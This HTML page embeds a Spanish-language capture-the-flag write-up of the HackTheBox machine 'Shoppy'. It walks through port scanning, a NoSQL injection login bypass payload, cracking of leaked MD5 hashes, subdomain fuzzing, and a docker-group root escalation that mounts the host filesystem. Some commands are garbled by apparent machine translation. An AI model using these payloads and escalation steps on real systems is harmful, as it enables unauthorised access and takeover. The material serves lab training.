


<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - Shoppy</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "Shoppy" de HackTheBox

Caracteristicas:

- Linux
- Facil
- Virtual Hosting
- Subdomain enumeration 
- NoSQL Injection (Admin Auth Bypass)
- Abussing The Shoppy App search engine (NoSQL injection) Obtaining the password of DB users
- Cracking hashes online
- Long into mattermost + Information Leakage
- Abusing Sudoers privilege
- Binary Analisis - GHIDRA [reverse enginering] 
- Abusing Docker Group [privilege escalation]

Util en:

- eWPT
- OSWE
- OSCP

        IP 10.10.11.180

- nmap -p- --min-rate 10000 10.10.11.180

PORT     STATE SERVICE

22/tcp   open  ssh

80/tcp   open  http

9093/tcp open  copycat

- nmap -p 22,80,9093 -sCV 10.10.11.180

<pre>
<code>
    PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp   open  http     nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
9093/tcp open  copycat?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Tue, 10 Jan 2023 21:41:55 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 4
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 4
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 4.8561e-05
|     go_gc_duration_seconds{quantile="0.25"} 8.7123e-05
|_    go_gc_dur
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9093-TCP:V=7.80%I=7%D=1/10%Time=63BDDBA3%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\ .1\ x20400\ x 20Bad\ x20Request\ r\ nContent-Type:\ x20t
...[snip]...
SF:8561e-05\ngo_gc_duration_seconds{quantile=\"0\.25\"}\x208\.7123e-05\ngo
SF:_gc_dur");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</code>
</pre>

Solo hay dos puertos abiertos, cuando intentamos acceder a la pagina web no se muestra asi que la agregaremos al /etc/hosts
una vez hecho eso, vemos:


verifique el código fuente y con burpsuite inspeccione los encabezados y las solicitudes recibimos iun mensaje de error vaya a shoppy.htb/hellow.  
esto devuelve el mensaje de error No se puede OBTENER /hellow. esto es cosa de node.js básicamente se trata de JavaScript en segundo plano. 
Después de eso, intento hacer lo mismo y trato de ir a /iniciar sesión y encontrar la página de inicio de sesión del administrador. 

- '+o'1'='1 — -

Primero, intenté inyectar esta carga útil para la contraseña y no funcionó. 
Cambiar el tipo de contenido a aplicación/json no funcionó, la inyección al nombre de usuario tampoco funcionó.
Mi objetivo es devolver el mensaje de error o recibir una respuesta interesante o algo así. Después de eso, eliminé el parámetro de contraseña y devolví mensajes de error json. 



intentaremos con una consulta nosql

- Nombre de usuario=admin'||'1'=='1 contraseña=123123

Esta carga útil funciona y nos redirige a la página de administración. 
use la función "buscar usuario" y busque administrador, devuelve el archivo y cuando lo descargó en el archivo existen valores de nombre de usuario, contraseña e identificación. 
Busque nuevamente con admin'||'1'=='1 y este les da a todos los usuarios que tenemos admin y josh que podemos intentar descifrar hashes de contraseñas.
Primero guarde los hashes en el archivo txt. 

https://crackstation.net devolvió el formato y el valor de hashes no encontró hashes de administrador, pero devolvió el formato de hash MD5 y el valor de contraseña de Josh. 

nmap habia encontrado dos puertos abiertos, uno de ellos es SSH e intentemos conectar SSH usando el resultado hash. pero no tenemos resultados
Vamos a borrar el subdominio y conectarnos al sitio con las credenciales de Josh.

- ffuf -u http://shoppy.htb -H “Host: FUZZ.shoppy.htb” -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquerk-subdomains-top100000.txt -fw 5 

encontramos "mattermost", agregamos esto al archivo /etc/hosts
nos devuelve una pagina en la que iniciaremos correctamente desde josh



dentro encontraremos unas creds con las que si podremos iniciar por ssh.
ls -la /home/deploy devuelve muchos archivos, algunos de ellos interesantes, e intenta abrirlos todos uno por uno para obtener información útil. 
tenemos acceso denegado a muchos comandos desde este usuario. Podemos ver la ruta /home/deploy/password-manager que es un administrador de contraseñas

- strings -el /home/deploy/password-manager

Con los siguientes comandos intente abrir Sample

- sudo -u implementar /home/deploy/administrador de contraseñas

Contraseña: Sample

y tenemos nuevas credenciales con la que intentaremos conectar por ssh y accedemos a deploy hacemos id para obtener que somos parte del grupo docker 
Lanzamos

- docker run — rm -it -v /:/mnt alpine /bin/sh después de este comando lo haremos en el coninter

- parámetro rm = eliminar el contenedor cuando esté listo

- parámetro it= terminal interactivo

- parámetro v= para el punto de montaje 

una vez dentro hacemos 

- cd /mnt

- chroot

luego de esto encontramos la flag de root

Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto 
debido a que en algunas de las máquinas que realice, no tome los apuntes o no tome capturas de pantalla, así que he decidido buscar varios writeups
y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía 
o cualquier error, Puedes contactarme a mi correo.

lerioxirit@proton.me


        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>